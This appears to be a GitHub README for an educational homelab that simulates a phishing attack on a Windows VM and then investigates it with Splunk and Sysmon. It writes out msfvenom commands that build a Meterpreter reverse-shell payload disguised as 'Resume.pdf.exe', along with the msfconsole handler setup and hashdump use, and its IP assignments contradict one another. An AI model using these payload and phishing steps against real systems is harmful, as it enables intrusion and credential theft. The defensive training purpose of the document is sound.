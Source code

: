 
---

# Homelab: Attack and Defence Simulation Project

### Objective

The primary objective of this project is to simulate a cyber-attack, investigate the attack using Splunk, and remediate it.

---

## Project Overview

- **Stage 1:** Lab Setup
- **Stage 2:** Machine Configuration
- **Stage 3:** Attack Simulation
- **Stage 4:** Investigation and Remediation
- **Conclusion**

---

## Stage 1: Lab Setup

### 1. Environment Setup

- Install VirtualBox and create two virtual machines.

    ![Screenshot of Windows 10 VM setup](./assets/virtualbox.png)
- **Machine 1 (Victim):** Windows 10 (192.168.100.102)
    ![Screenshot of Windows 10 VM setup](./assets/win10.png)
- **Machine 2 (Attacker):** Kali Linux (192.169.100.101)
    ![Screenshot of Kali Linux VM setup](./assets/kali.png)

### 2. Network Configuration

- **Internal Network Isolation:** Configure both machines to communicate only through an internal network. This will help prevent malware from affecting host system.

   ![Network Configuration Screenshot](./assets/network-topology.png )
- Go to **Settings > Network > Select Internal Network**
- **Promiscuous Mode:** Allow all
![Network Configuration Screenshot](./assets/internal-network.png)
- **Static IP Assignment:** Assign static IPv4 addresses to each machine for consistent communication.

  - Windows 10 (Victim): 192.168.100.101
    ![kali ip](./assets/win10ip.png)
  - Kali Linux (Attacker): 192.168.100.102  
    ![Screenshot showing IP assignment on both machines](./assets/kaliip.png)

---

## Stage 2: Machine Configuration

### Machine 1: Victim (Windows 10)

1. **Install Splunk Enterprise:**
   - Download and install Splunk enterprise to monitor system activities.
   - Navigate to `http://127.0.0.1:8000`for using splunk and login to your account.
   ![splunk login](./assets/splunk-login.png)
   ![splunk login](./assets/splunk-home.png)

2. **Install Sysmon Add-on for Splunk:**
   - Download and install the Sysmon add-on for advanced monitoring.
   ![Sysmon addon](./assets/sysmon-addon.png)
   - Copy `Splunk_TA_microsoft_sysmon` add-on directory from `Splunk/etc/app` to `Splunk/etc/deployment-apps`.
   ![Sysmon addon app directory](./assets/addonfile.png)

3. **Configure Sysmon:**
Download and configure Sysmon with an XML configuration file for detailed process monitoring.
   - [Download Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon)
   - [Download Sysmon configuration file](https://github.com/olafhartong/sysmon-modular)

         ./sysmon64 -i ./config.xml -accepteula

4. **Deactivate Windows Defender:**
   Temporarily disable Windows Defender to avoid interference with the simulation.

### Machine 2: Attacker (Kali Linux)

1. **Network Connectivity Check:** Use the `ping` command to confirm connectivity with the victim machine.  
     ![Screenshot of ping command](./assets/pingtest.png)

2. **Reconnaissance Using Nmap:**
   - Use `nmap` to scan the victim machine for open ports, identifying potential vulnerabilities.  

   ![Nmap scan results](./assets/nmap.png)

3. **Malware Creation:** Generate a malware executable with `msfvenom` using the `windows/meterpreter/reverse_tcp` payload.

         msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Your_IP> lport=4444 -f exe -o Resume.pdf.exe
   ![malware created](./assets/msfresume.png)

4. **Phishing Email:**
    Craft a phishing email with the malware attachment and send it to the victim.  

   ![Screenshot of phishing email](./assets/mail.png)

---

## Stage 3: Attack Simulation

### Step 1: Launch `msfconsole` on Kali Linux (Attacker Machine)

1. Launch `msfconsole` and configure it to listen for an incoming connection:

   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/x64/meterpreter/reverse_tcp
   set lhost <Your_IP>
   set lport 4444
   options
   exploit
   ```

![msf consoole](./assets/msfconsole.png)

### Step 2: Execute the Malware on Windows 10 (Victim Machine)

- Open the malware attachment from the phishing email on the victim machine to initiate a reverse shell connection.
![malware running](./assets/malware-runing.png)

### Step 3: Access the Victim Machine

- Connection established
![connection establish](./assets/connection.png)

- use `shell` to execute commands on victim machine
  - Execute commands such as `sysinfo`, `hashdump`, and other shell commands to observe system data and activity.

---

## Stage 4: Investigation and Remediation

### 1. Investigate with Splunk on Windows 10

- Ran `index="main" resume` to get related logs for malware file
![search](./assets/Splunk%20search.png)
- Ran `index="main" 192.168.100.101` to get all entries going to attacker ip
![search](./assets/Splunk-dest_ip.png)
- Fist log after malware execution
![search](./assets/Splunk-first-log.png)

- Below are some findings after Investigating splunk logs
  - **Malware file:** Resume.pdf.exe
  - **Destination/Attacker ip:** 192.168.100.101
  - **Process Id:** 1408
  - **Attack time:** 28/10/2024 at 4:24 PM

### 3. Malware Removal and Remediation

- Terminate the malicious process by `END Task`in Task manager.
- Delete the malware executable from Download location.
- Delete phishing mail
- Check for persistent registry entries or scheduled tasks to ensure complete threat removal.

---

## Conclusion

This homelab project provided a comprehensive experience in simulating and defending against cyber-attacks, covering essential stages from initial setup to post-attack remediation. Through hands-on engagement with tools like VirtualBox, Kali Linux, and Splunk, the project demonstrated critical cybersecurity techniques, including network isolation, attack surface discovery, malware creation, phishing tactics, and incident investigation. Utilizing Splunk and Sysmon to trace attack vectors and remediate vulnerabilities deepened understanding of both offensive and defensive cybersecurity operations, showcasing a complete cycle of attack response. This project highlights the real-world applicability of these skills in protecting and securing digital environments against threats.

---
